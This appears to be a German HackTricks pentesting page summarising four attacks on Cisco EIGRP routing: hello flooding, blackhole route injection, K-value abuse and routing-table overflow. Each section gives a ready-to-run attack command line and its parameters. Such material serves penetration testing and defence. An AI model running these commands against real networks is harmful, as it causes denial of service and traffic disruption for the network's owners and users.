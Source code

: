 # EIGRP-Angriffe

{{#include ../../banners/hacktricks-training.md}}

**Dies ist eine Zusammenfassung der in** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9) **ausgesetzten Angriffe. Überprüfen Sie es für weitere Informationen.**

## **Fake EIGRP Neighbors Angriff**

- **Ziel**: Router-CPUs durch Fluten mit EIGRP-Hello-Paketen zu überlasten, was potenziell zu einem Denial of Service (DoS) Angriff führen kann.
- **Tool**: **helloflooding.py** Skript.
- **Ausführung**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **Parameter**:
- `--interface`: Gibt die Netzwerkschnittstelle an, z.B. `eth0`.
- `--as`: Definiert die EIGRP-Autonomous-System-Nummer, z.B. `1`.
- `--subnet`: Setzt den Standort des Subnetzes, z.B. `10.10.100.0/24`.

## **EIGRP Blackhole Angriff**

- **Ziel**: Den Netzwerkverkehr zu stören, indem eine falsche Route injiziert wird, was zu einem Blackhole führt, in das der Verkehr zu einem nicht existierenden Ziel geleitet wird.
- **Tool**: **routeinject.py** Skript.
- **Ausführung**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **Parameter**:
- `--interface`: Gibt die Schnittstelle des Angreifersystems an.
- `--as`: Definiert die EIGRP-AS-Nummer.
- `--src`: Setzt die IP-Adresse des Angreifers.
- `--dst`: Setzt die Ziel-Subnetz-IP.
- `--prefix`: Definiert die Maske der Ziel-Subnetz-IP.

## **Abusing K-Values Angriff**

- **Ziel**: Kontinuierliche Störungen und Wiederverbindungen innerhalb des EIGRP-Domäne zu erzeugen, indem veränderte K-Werte injiziert werden, was effektiv zu einem DoS-Angriff führt.
- **Tool**: **relationshipnightmare.py** Skript.
- **Ausführung**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **Parameter**:
- `--interface`: Gibt die Netzwerkschnittstelle an.
- `--as`: Definiert die EIGRP-AS-Nummer.
- `--src`: Setzt die IP-Adresse eines legitimen Routers.

## **Routing Table Overflow Angriff**

- **Ziel**: Die CPU und den RAM des Routers zu belasten, indem die Routing-Tabelle mit zahlreichen falschen Routen geflutet wird.
- **Tool**: **routingtableoverflow.py** Skript.
- **Ausführung**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **Parameter**:
- `--interface`: Gibt die Netzwerkschnittstelle an.
- `--as`: Definiert die EIGRP-AS-Nummer.
- `--src`: Setzt die IP-Adresse des Angreifers.

{{#include ../../banners/hacktricks-training.md}}
